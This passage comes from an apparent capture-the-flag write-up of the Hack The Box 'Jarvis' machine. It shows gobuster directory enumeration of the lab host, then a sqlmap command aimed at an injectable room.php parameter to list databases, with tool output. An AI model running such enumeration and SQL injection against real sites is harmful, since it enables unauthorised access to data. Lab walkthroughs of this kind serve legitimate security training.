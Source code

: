 Alongside running nmap, I also ran robuster for directory and file discovery. I used the small directory wordlist provided by dirbuster in Kali Linux. I also utilized the -x option. In gobuster, this searches for file extensions provided in the command. By default, I usually start with php, html, and him extensions:

{% highlight bash linenos %}
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.10.143 -x php,html,htm
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.143
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,htm,txt
[+] Timeout:        10s
===============================================================
2019/10/15 18:54:26 Starting gobuster
===============================================================
/index.php (Status: 200)
/images (Status: 301)
/nav.php (Status: 200)
/footer.php (Status: 200)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/phpmyadmin (Status: 301)
/room.php (Status: 302)
/connection.php (Status: 200)
/sass (Status: 301)
===============================================================
2019/10/15 19:22:44 Finished
===============================================================
{% endhighlight %}

While these were running, I also began manually enumerating and investigating the website for Jarvis. This (as you should be able to tell) is a themed hotel for Stark Industries from Marvel's Iron Man. While looking over the website, I noticed something interesting with the URL when I was navigating the available hotel rooms. To be specific, I noticed this:

{% highlight bash linenos %}
http://supersecurehotel.htb/room.php?cod=1
{% endhighlight %}

The URL utilizes a database to provide the room pages! With this information, I threw the first tool that comes to mind. SQLMap. For my first SQLMap command, I used the --dbs option to enumerate and locate any available databases:

{% highlight bash linenos %}
sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --dbs
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.3#stable}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

